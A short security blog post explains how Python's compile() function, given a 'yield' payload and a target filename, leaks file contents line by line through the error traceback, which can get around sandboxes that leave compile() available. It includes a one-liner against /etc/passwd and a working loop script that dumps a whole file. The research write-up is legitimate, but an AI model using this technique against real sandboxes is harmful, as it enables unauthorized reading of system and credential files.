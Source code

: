 ```yaml
---
layout: post
title: Python Compile Leak Bug 
published: true
categories: [Research]
excerpt: I was trying to break out of a python sandbox back in October, when I discovered a By-Design bug.
---
```


By using the `compile` function and throwing an error by `return`ing it early, we can leak the first line of any file that we have access permissions to. 

---

# Leaking files with compile() in Python

### Background

I was trying to break out of a python sandbox back in October, when I asked [this question](https://security.stackexchange.com/q/219320/169503) on Stackexchange (but no one answered...). I eventually opened my [first issue](https://bugs.python.org/issue38985) on the Python Bug Tracker, and was told that it was By-Design.

By using the `compile` function and throwing an error by `return`ing it early, we can leak the first line of any file that we have access permissions to. 

Now, you may ask:     
>But Isopach, what's the use of leaking a file that you already have permissions to read? Why not just **cat** it? 

And to be honest, on hindsight this isn't even a noteworthy bug to write about. 

BUT! You can use this for escaping improperly implemented sandboxes, i.e. sandboxes that did not remove the `compile` function. So even if you cannot `cat` the file directly, you will be able to leak them.

So, onto the bug!

### Bug

By running `compile('yield', '/etc/passwd', 'exec')`, we are able to leak the first line of any file.

While it is useful in many cases, often we want to see the whole file, right?

To do this, since python interprets files line-by-line, we can delay the termination error simply by adding a new line `\n` to leak a line at a time.

For example, let's make `/tmp/passwd`:
```bash
$ cat /tmp/passwwd
line 1
line 2 
line 3
line 4
```

We will be able to read the first line with 0 `\n` like as above, but when we run `compile('\nyield', '/tmp/passwd', 'exec')`, it returns `line 2`!

### Exploit 

We'll be able to get every line by catching the `Traceback` and storing it in a variable, then printing it out for every line like this:

```python
import traceback
import sys


for i in range(0,100):
    line_number = '\n' * i
    payload = line_number + 'yield'
    try:
        compile(payload, sys.argv[1], 'exec')
    except SyntaxError, err:
        try:
            exc_info = sys.exc_info()
            
        finally:
            traceback.print_exception(*exc_info)
            del exc_info
```

Change the upper limit in `range` depending on file length.

Thanks for reading!
